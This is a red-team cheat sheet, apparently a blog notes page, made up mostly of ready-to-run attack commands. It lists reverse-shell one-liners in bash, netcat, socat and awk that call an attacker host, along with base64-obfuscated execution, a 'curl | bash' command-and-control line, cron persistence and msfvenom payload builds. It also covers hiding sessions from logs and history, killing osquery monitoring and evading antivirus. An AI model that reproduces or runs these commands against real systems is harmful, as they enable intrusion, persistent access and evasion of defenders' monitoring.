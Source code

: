 +++
title = "Red Teaming"
date = "2019-11-18"
categories = [
    "security",
]

+++
## Reverse Shell

### Reverse shell with bash

```bash
bash -i >& /dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1
```

In case shell causes the application to suspended, run in new session with `setsid`:

```bash
setsid bash -i &>/dev/tcp/ATTACKER_IP/ATTACKER_PORT 0>&1 &
```
By `msfvenom`:

```bash
bash -c '0<&42-;exec 42<>/dev/tcp/10.110.28.5/4747;sh <&42 >&42 2>&42'
```

Tricks and obfuscate:

```bash
echo COMMAND_BASE64 | base64 -d | bash
echo COMMAND_HEX | xxd -p -r | bash
{echo,COMMAND_BASE64}|{base64,-d}|bash
bash -c {echo,COMMAND_BASE64}|{base64,-d}|{bash,-i}
curl http://ATTACKER_IP:PORT | bash #kind of a C&C
```

### Background reverse shell with loop and crontab

```bash
while :; do REVERSE_SHELL_COMMAND; sleep 900; done &>/dev/null &
```

```bash
echo "*/15 * * * * REVERSE_SHELL_COMMAND" > .job; crontab .job
```

### Reverse shell with netcat & socat

```bash
nc -e /bin/bash -vn ATTACKER_IP ATTACKER_PORT
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER_IP:ATTACKER_PORT
```

Listener: `socat file:`tty`,raw,echo=0 tcp-listen:ATTACKER_PORT`

### Reverse shell with awk

```bash
awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/ATTACKER_PORT"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### Reverse shell with Windows Registry

https://github.com/8L4NK/evilreg

### Reverse shell with powershell, php, java, python, perl, ssh, etc... using msfvenom

Show list: `msfvenom -l`

Example show the options each payload: `msfvenom -p cmd/unix/reverse_ssh --list-options`

Some cheatsheet `msfvenom -p <tab_to_keyword>`:

```bash
msfvenom -p cmd/unix/reverse_bash LHOST=10.110.28.5
msfvenom -p cmd/unix/reverse_ssh LHOST=10.110.28.5
msfvenom -p windows/powershell_reverse_tcp LHOST=10.110.28.5
msfvenom -p cmd/unix/reverse_perl LHOST=10.110.28.5 LPORT=4747
msfvenom -p cmd/unix/reverse_python LHOST=10.110.28.5 LPORT=4545 > shell.py
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.110.28.5 LPORT=7777 -f war > shell.war
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.110.28.5 LPORT=7777 -f dll > privesc.dll
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.110.28.5 LPORT=4545 -e php/base64 R > shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.110.28.5 LPORT=4545 -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.110.28.5 LPORT=4545 -f raw > shell.jsp
#binary
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.110.28.5 LPORT=4747 -f elf > shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.110.28.5 LPORT=4747 -f exe > shell.exe
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.110.28.5 LPORT=4747 -f macho > shell.macho
```

A power tool for reverse ssh: https://github.com/Fahrj/reverse-ssh

Other generator: https://www.revshells.com

### Reverse shell with Windows Registry

https://github.com/8L4NK/evilreg

### Spawning TTY Shell

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
script -qc /bin/bash /dev/null
/bin/bash -i
perl —e 'exec "/bin/sh";'
```



## Bypass, Persistent and Post Exploit

### Hiding from Bash history

No bash history: `unset HISTFILE` or put a space into the head of command.

Re-load the history back to how it was when the session logged in: `history -r`

### Hide SSH session - invisible SSH

```bash
ssh -o UserKnownHostsFile=/dev/null -T user@IP_ADDRESS "bash -i"
```

This will not add the user to the `/var/log/*` file and SSH session won't show up in `w` or `who` command of logged in users. It will bypass `.profile` and `.bash_profile` as well. On client side, it will stop logging the host name to `~/.ssh/known_hosts`.

### Remove osquery (root required)

```bash
rm -rf /usr/local/sbin/osquery-extension.ext /usr/local/sbin/osqueryd
for pid in $(ps -aux | grep osquery | grep -v color=auto | awk '{print $2}'); do kill -9 $pid; done
```

### Reverse shell bypass AV with powershell, nim

A list of useful powershell scripts with 100% AV bypass ratio, tested on Windows 11 (At the time of publication): https://github.com/tihanyin/PSSW100AVB

A magic tip with nim language https://github.com/dmknght/RevShellNim, https://github.com/Potato-Industries/nimrs

```bash
nim c -d:mingw --cpu:i386 reverseshell.nim
```

Do not submit the binary to virustotal. To test bypass AV: nodistribute.com, antiscan.me

